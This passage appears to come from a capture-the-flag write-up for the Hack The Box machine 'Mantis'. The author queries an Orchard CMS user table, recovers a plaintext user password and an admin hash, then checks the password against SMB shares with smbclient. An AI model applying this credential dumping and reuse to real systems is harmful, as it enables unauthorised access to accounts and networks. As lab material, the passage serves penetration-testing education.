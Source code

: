 The `blog_Orchard_Users_UserPartRecord` table looks like what we need.

```
1> USE orcharddb;
2> go
1> SELECT * FROM blog_Orchard_Users_UserPartRecord;
2> go
Id         
UserName 
Email     
NormalizedUserName 
Password    
PasswordFormat 
HashAlgorithm    
PasswordSalt   
RegistrationStatus  
EmailStatus    
EmailChallengeToken 
CreatedUtc          LastLoginUtc        LastLogoutUtc      
-------------------------------------------------------------------------------
2
admin  
admin   
AL1337E2D6YHm0iIysVzG8LA76OozgMSlyOJk1Ov5WCGK+lgKY6vrQuswfWHKZn2+A==  
Hashed   
PBKDF2   
UBwWF1CQCsaGc/P7jIR/kg==  
Approved     
Approved  
NULL  
Sep  1 2017 01:44PM Sep  1 2017 02:03PM Sep  1 2017 02:06PM
15
James   
james@htb.local  
james      
J@m3s_P@ssW0rd!  
Plaintext   
Plaintext  
NA    
Approved  
Approved  
NULL   
Sep  1 2017 01:45PM                NULL                NULL

(2 rows affected)

```

Excellent we have james' password. We already know that logging into the webapp as james just throws an exception. So let's test these credentials via SMB and see if they are valid Windows credentials.

```
root@kali:~/htb/mantis# smbclient -L 10.10.10.52/ -U james
WARNING: The "syslog" option is deprecated
Enter WORKGROUP\james's password: 
Domain=[HTB] OS=[] Server=[]

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	NETLOGON        Disk      Logon server share 
	SYSVOL          Disk      Logon server share
```